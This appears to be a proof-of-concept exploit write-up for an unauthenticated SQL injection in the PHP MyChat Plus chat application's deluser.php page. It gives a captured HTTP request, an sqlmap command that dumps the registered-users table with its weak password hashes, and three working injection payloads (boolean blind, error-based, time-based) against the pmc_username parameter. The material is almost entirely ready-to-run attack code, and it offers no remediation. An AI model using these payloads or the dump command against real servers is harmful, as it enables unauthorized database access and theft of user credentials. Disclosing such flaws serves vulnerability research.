 The PHP MyChat Plus application is vulnerable to SQL Injection without authentication through the "deluser.php" page.

Capture the request through burpsuite:

````
POST /plus/deluser.php HTTP/1.1

Host: HOSTNAME

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://HOSTNAME/plus/deluser.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 77

Connection: close

Cookie: CookieLang=english; temp=temp; CookieUsername=testing; CookieRoom=Public%2BRoom%2B1; CookieRoomType=1; CookieStatus=r; PHPSESSID=0srffkdt9nu2jis443pp9nh3i9

Upgrade-Insecure-Requests: 1



L=english&Link=&LIMIT=0&pmc_username=test&pmc_password=test&login_form=Log+In
````
Then save that request to disk and run SQL Map with the following parameters:
````
sqlmap -r deleteuserlogin.req --level=5 --risk=3 --dbms=mysql --tamper=unmagicquotes -D DBNAME --dump -T c_reg_users -p pmc_username
````

This will dump all the users and the very weak hashes.

POC URLS for the injection:
---
Parameter: pmc_username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND 9736=(SELECT (CASE WHEN (9736=9736) THEN 9736 ELSE (SELECT 2847 UNION SELECT 9983) END))-- qEHq&pmc_password=test&login_form=Log In

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' OR (SELECT 7708 FROM(SELECT COUNT(*),CONCAT(0x7170627a71,(SELECT (ELT(7708=7708,1))),0x7162627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ShDx&pmc_password=test&login_form=Log In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND (SELECT 5588 FROM (SELECT(SLEEP(5)))wWnk)-- FHPh&pmc_password=test&login_form=Log In
---
